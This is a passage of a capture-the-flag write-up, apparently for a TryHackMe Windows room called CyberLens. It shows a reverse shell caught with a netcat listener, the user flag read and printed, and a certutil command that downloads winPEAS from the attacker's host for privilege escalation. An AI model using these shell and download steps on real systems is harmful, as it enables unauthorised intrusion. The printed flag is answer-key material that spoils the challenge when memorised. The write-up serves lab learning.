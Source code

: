 And we check [[Netcat]] listener :

```
┌──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.60.241] 49859
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
cyberlens\cyberlens

```

Boom we have it .

Now we go to Desktop through `cd` and `dir` and catch the first with `type` :

```
C:\Windows\system32>cd C:/Users/CyberLens/Desktop
cd C:/Users/CyberLens/Desktop

C:\Users\CyberLens\Desktop> type user.txt
type user.txt
THM{T1k4-CV3-f0r-7h3-w1n}

```

## Privilege Escalation

### WinPEAS

We can use [[WinPEAS]] to auto find potential vectors for the [[Privilege Escalation]] we have to transfer the executable from our machine to the target machine :

```
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://10.8.162.183:80/winPEASx86.exe C:\Users\CyberLens\Desktop\winPEASx86.exe
certutil -urlcache -f http://10.8.162.183:80/winPEASx86.exe C:\Users\CyberLens\Desktop\winPEASx86.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\CyberLens\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\CyberLens\Desktop

07/12/2025  11:11 AM    <DIR>          .
07/12/2025  11:11 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/06/2023  07:54 PM                25 user.txt
07/12/2025  11:11 AM        10,156,032 winPEASx86.exe
               4 File(s)     10,157,138 bytes
               2 Dir(s)  14,916,714,496 bytes free

```

